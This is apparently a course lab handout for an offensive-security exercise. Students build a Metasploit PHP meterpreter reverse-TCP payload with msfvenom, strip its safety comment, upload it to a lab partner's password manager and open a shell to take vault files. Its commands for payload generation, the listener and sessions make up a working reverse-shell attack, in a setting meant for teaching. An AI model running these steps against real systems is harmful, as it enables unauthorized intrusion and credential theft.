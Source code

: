 # Week 5 | Offensive

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .
```

## Part 0: Adding our Sensitive Information

In the last lab, you were asked to create a new user account, create a new vault, and add some passwords along with sensitive information in the form of a .txt file. If you have not done this yet, please do so now as this will be the asset your lab partners are after when they hack your password manager.

### It is super important that you DO NOT delete volumes when redeploying your web application if you want to save the information you have added to your docker container.

You can think of the volumes in Docker as the storage used by each container. When we first spin up our web application, these volumes are generated and storage on your machine is allocated for each container.

When we create new user accounts, add passwords, and upload files, these are all stored within the volumes for our containers. This is why it is extremely important when we run redeploy to NOT delete these volumes.

It may also be more beneficial to run `start.py` and `stop.py` rather than the `redeploy.py` script as these will not delete any data we have added.

## Part 1: Planning our Attack
Some helpful definitions to recall from lecture are:
- `Vulnerability`: A weakness which can be exploited by a threat actor, such as an attacker.
- `Exploit`: A piece of code written to take advantage of a particular vulnerability.
- `Payload`: A piece of code to be executed through said exploit on a specific target.
- `Target`: A system being exploited and that will run the payload.

In this lab, we will be crafting a payload to take advantage of a vulnerability on the target machine.

1. We need to identify a vulnerability. How can we get a piece of code onto our password manager?
    - Note that this should also be a place where we can **execute** the payload. We need to be able to run our code once we somehow get it onto our target machine.

Once we have identified our vulnerability, we can begin crafting our payload!

## Part 2: Setting up Metasploit

Metasploit is a framework that allows penetration testers to identify, exploit, and validate vulnerabilities in a system. It includes an extensive set of tools specifically for penetration testing. We can use the tools to generate payloads that will allow us to easily attack a system.

We will be utilizing metasploit through a Docker container. In a "real" pen testing role, you may find it more beneficial to use metasploit via a virtual machine running Kali Linux, a distribution of Linux that includes a host of tools for offensive security (including metasploit)! For our purposes, a Docker container will allow us to quickly and easily access the tools we need.

1. First, we need to deploy a docker container running metasploit. Run the following command to pull the metasploit image and spin up a container with that new image.

    ```
    docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework
    ```

    Your terminal should now be running the metasploit docker container! You should see something similar to the following output:

    ![metasploit contianer](/lab-writeup-imgs/metasploit_container.png)

    Two things to take note of, the ASCII art will most likely be different, and your LHOST should be printed at the bottom of the terminal (highlight in red in the image above). This is the IP address of the docker container running metasploit within the private docker network. This is **different** from your external IP address.


## Part 3: Crafting our Payload

As mentioned above, metasploit comes with a suite of tools for us to use for pentesting and offensive security purposes. One of those tools being msfvenom. Msfvenom lets us generate customized payloads for our specific attack. We will be using msfvenom to easily craft the payload we will be using in this lab!

The payload we will be crafting will be built off of the `meterpreter` payload. This payload provides an interactive shell between the victim's machine and the attacker's machine. This shell will allow us to explore our target and execute commands on their device!

Before we make our payload, we can use this simple script to see if we can actually run code on the server:

    ```
    <?php
    $files = scandir(getcwd());
    print_r($files);
    ?>
    ```
Save this as a `.php` file and try to run it on the server!

Once we confirmed this is possible, we can proceed with making our malware!

1. To generate our payload, we will use the following command:

    ```
    /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
    ```

    - `-p php/meterpreter_reverse_tcp`: This specific payload builds the meterpreter payload in PHP, which is what we want since we know that the target is a PHP server. 

        The `reverse_tcp` part refers to the type of network communication method that this payload will establish. Essentially, we are creating forcing the victim's machine to connect to a service that will be running off of our machine, hence the 'reverse' part.

    - `LHOST=<Your EXTERNAL IP address> LPORT=4444`: We then set the `LHOST` and `LPORT` to match the IP address and the port that the victim will be connecting to.

        Since your target's password manager is running on their machine outside of your own internal docker network, the LHOSt must be set as your IP address, which you can find by running `ipconfig` or `ifconfig`.

    - `-f raw`: This specifies the payload should be 'raw' output, meaning it will just print to our terminal rather than being saved to a file.

2. Once you have run the command above, you should get a large output in your terminal. This is our payload! We can copy it and paste it into a `.txt` file on our machine. Make sure you save it as `reverse_tcp.php`, so that it can be executed as a PHP script.

    - Note that the payload will have a comment tag at the beginning. This is to ensure that the payload does not accidentally execute! We can remove this before saving so that the payload will run on our target machine.

## Part 4: Setting up our attacking machine
1. To select this payload, run the following command in the msfconsole container:

    ```
    use php/meterpreter/reverse_tcp
    ```

2. Once we have selected this payload, let's double check that all of our options are configured correctly. Run the following command to see all options we can configure:

    ```
    options
    ```

    You should see two possible options, `LHOST` and `LPORT`.

    - LHOST: This is the address of the machine the victim will try to connect to during our attack. It is the address that should have the service "**L**istening" for a connection. This should match the LHOSt you saw in part 1.
    - LPORT: This is the port the service will be "**L**istening" on.

    These two options should already be configured by default to match your metasploit container's IP address and the appropriate port (4444).

3. Next, we will run the following command to start the service. It will be listening on port 4444 for incoming connections from our victim's machine.

    ```
    exploit
    ```

## Part 5: Attacking the Password Manager >:)

By now, you have the service listening within your metasploit container and have successfully placed the payload on the target's machine.

We need to now somehow execute the payload to establish a connection from the target's device to our attacking machine. Can you think of a way that we can run the payload?

Once you have successfully executed the payload, you can list all of your sessions running in metasploit with the following command:

```
sessions -l
```

You should see your sessions listed with a session ID. To interact with the session of interest, enter the following command with the session ID:

```
sessions -i <ID>
```

You should now be able to access the shell connected with the victim's machine! Start exploring the target and see if you are able to extract the information from their personal vault!

## For credit:

Take a screenshot of the shell session you established, along with the .txt file uploaded by your lab partner!